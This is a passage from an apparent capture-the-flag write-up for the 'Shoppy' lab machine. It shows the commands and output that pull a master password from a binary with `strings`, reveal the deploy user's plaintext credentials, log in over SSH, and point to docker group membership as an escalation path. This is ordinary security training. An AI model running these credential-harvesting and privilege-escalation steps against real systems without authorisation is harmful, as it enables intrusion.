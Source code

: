 ```sh
Sample
```

That repeated word is interesting, if we check we see it's the only output from 16-bit encoding (that's b or l):

```sh
jaeger@shoppy:~$ strings --encoding=b /home/deploy/password-manager
Sample
```

If we try that with the program we get a result:

```sh
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

## Deploy User

We have creds for the deploy user, let's drop out of this session and start one as that user:

```sh
┌──(root㉿kali)-[~/htb/shoppy]
└─# ssh deploy@shoppy.htb
deploy@shoppy.htbs password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64
Last login: Thu Jan 26 08:00:10 2023 from 10.10.14.42
```

Looking at the user we see we're in a group called docker:

```sh
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

That should get your spidey senses tingling!

## Docker

If you need a cheat sheet, [this](https://dockerlabs.collabnix.com/docker/cheatsheet/) is a good one. We can have a look at the installed version of docker, containers and images:

```sh
$ docker version
Client: Docker Engine - Community
 Version:           20.10.18
 API version:       1.41
 Go version:        go1.18.6
 Git commit:        b40c2f6
 Built:             Thu Sep  8 23:12:08 2022
 OS/Arch:           linux/amd64
 Context:           default
 Experimental:      true

Server: Docker Engine - Community
 Engine:
  Version:          20.10.18
  API version:      1.41 (minimum version 1.12)
  Go version:       go1.18.6
  Git commit:       e42327a
```